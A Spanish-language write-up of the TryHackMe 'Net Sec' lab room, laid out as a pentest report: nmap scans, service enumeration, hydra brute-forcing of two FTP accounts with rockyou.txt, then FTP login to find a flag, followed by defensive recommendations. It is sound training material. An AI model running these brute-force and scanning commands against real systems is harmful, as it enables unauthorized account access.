

# Net Sec 
> Sala enfocada en fundamentos de redes, reconocimiento y enumeración.

**URL:** https://tryhackme.com/room/netsec  

## Resumen

Se evaluó la seguridad de los protocolos SSH, HTTP y FTP, este último era vulnerable a ataques de fuerza bruta debido a nombres de usuarios obtenidos previamente y contraseñas débiles.

Un atacante, incluso sin conocimientos avanzados, puede obtener acceso de manera rápida y sencilla de tal manera que permite la filtración de datos. Las acciones inmediatas recomendadas es cambiar las contraseñas de los usuarios así como establecer politicas para la creación de las mismas.

---

## Metodología

### Reconocimiento

#### Escaneo inicial

Se realizaron dos escaneos con el objetivo de no consumir recursos innecesarios debido al rango dado en los puertos.

El primero

```bash
$ nmap -n -Pn -p0-10000 [TARGET]
```

El segundo

```bash
$ nmap -n -Pn -p10000-20000 [TARGET]
```

#### Hallazgos

El escaneo muestra los siguientes resultados respectivamente

```text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8081/tcp  open  blackice-icecap
```
```text
PORT       STATE SERVICE
10001/tcp  open  scp-config
10121/tcp  open  unknown
```

Obteniendo un total de 7 puertos tcp abiertos

### Enumeración

Los siguientes puertos son de particular interés por los servicios que ofrecen. Puerto 22, SSH; 80, HTTP; 10121, FTP.

#### SSH

Con un escaneo más profundo se obtuvo la versión del servicio, así como la bandera

```bash
$ nmap -n -Pn -sV -p22 [TARGET]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=6/7%Time=6A25DA22%P=x86_64-pc-linux-gnu%r(NULL,
SF:2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{0123456789}\x20\r\n");
```

#### HTTP

Sin embargo para el puerto 80 no se podía obtener la versión, esto puede ser debido a alguna protección al host tales como firewalls, IDS o IPS

```bash
$ nmap -n -Pn -sV -p80 [TARGET]
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-07 14:57 CST
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:01:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:01:34 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
```

El host no responde a las solicitudes hechas por nmap. Por ello se procede a visitar la pagina web http://TARGET



#### FTP

Para descubir en qué puerto estaba activo el servicio ftp se realizó un escaneo al único puerto que no mostraba servicio alguno, en este caso el puerto 10121.

```bash
nmap -n -Pn -sV -p10121 [TARGET]
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-07 15:15 CST
Nmap scan report for [TARGET]
Host is up (0.083s latency).
PORT      STATE SERVICE VERSION
10121/tcp open  ftp     vsftpd 3.0.5
Service Info: OS: Unix
```

### Explotación

A través de investigación previa, llamada comunmente "ingeniería social", se conoce que existen dos usuarios llamados "eddie" y "quinn" que utlizan el servicio FTP. Al aplicar fuerza bruta se obtuvieron sus contraseñas

```bash
$ hydra -l eddie -P rockyou.txt TARGET ftp -s 10121
[DATA] attacking ftp://TARGET:10121/
[10121][ftp] host: TARGET   login: eddie   password: [password]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 15:21:10
```

```bash
$ hydra -l quinn -P rockyou.txt TARGET ftp -s 10121
[DATA] attacking ftp://TARGET:10121/
[10121][ftp] host: TARGET   login: quinn  password: [password]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 15:21:10
```

### Post Explotación
Utilizando las credenciales descubiertas es posible acceder a la cuenta del del usuario en el servicio FTP. La primera, _eddie_

```bash
$ ftp [TARGET] -P 10121
Connected to [TARGET].
220 (vsFTPd 3.0.5)
Name ([TARGET]:username): eddie
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30464|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```
Resultados no relevantes.

Para _quinn_

```bash
$ ftp [TARGET] -P 10121
Connected to [TARGET].
220 (vsFTPd 3.0.5)
Name ([TARGET]:username): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30040|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           22 Feb 24 08:52 ftp_flag.txt
226 Directory send OK.
```
Muestra la bandera

----

## Impacto

Tener usuarios con credenciales débiles es una puerta de entrada para los atacantes, pueden tener acceso no autorizado de manera sencilla y realizar distintas tecnicas para comprometer el sistema. Al tratarse de una cuenta creada para una empresa, organización o institución las posibles consecuencias son filtración de datos, escalación de privilegios y persistencia.

----

## Recomendaciones

- Almacenar las contraseñas con el hash y salt, no en texto plano.
- Implementar contraseñas alfanumericas, largas y únicas.
- Habilitar autenticación multifacor (MFA)
- Las respuestas de los servicios unicamente aportan información mínima necesaria para el usuario

----

## Aprendizajes 
### Ofensivo
- Realizar un reconocimiento profundo, no de manera superficial leyendo solo el primer resultado
- Ante bloqueos hechos por el host buscar diversas maneras de evadirlos
- No suponer estados del sistema, es decir si está prendida, apagada, bloqueada, con protección, aislada, etc.

### Defensivo
- Establecer politicas de contraseñas y cultura de seguridad
- Configurar tazas mínimas y máximas de solicitudes por segundo para mitigar escaneos, reconocimiento y fuerza bruta.